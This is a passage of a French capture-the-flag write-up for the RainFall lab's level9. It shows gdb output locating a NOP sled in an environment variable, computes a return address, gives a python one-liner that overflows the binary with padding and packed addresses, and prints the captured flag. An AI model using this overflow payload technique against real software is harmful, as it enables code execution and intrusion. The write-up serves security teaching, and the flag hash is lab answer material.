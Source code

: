 ```
(gdb) x/10s *((char **)environ)
0xbffff4f1:  	"SHELL=/bin/bash"
[...]
0xbffffb7d:  	"LESSOPEN=| /usr/bin/lesspipe %s"
0xbffffb9d:  	"LESSCLOSE=/usr/bin/lesspipe %s %s"
0xbffffbbf:  	"ICE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...
[...]
0xbffffd4f:  	"\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220"...

0xbffffbbf + 500 = 0xbffffdb3
```

Donc `0xbffffdb3` => `\xb3\xfd\xff\xbf`

On a cette commande :

```
level9@RainFall:~$ ./level9 $(python -c "print('a' * 104 + '\xb3\xfd\xff\xbf' + '\x74\xa0\x04\x08')")
```

On obtient donc le flag suivant !

```
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

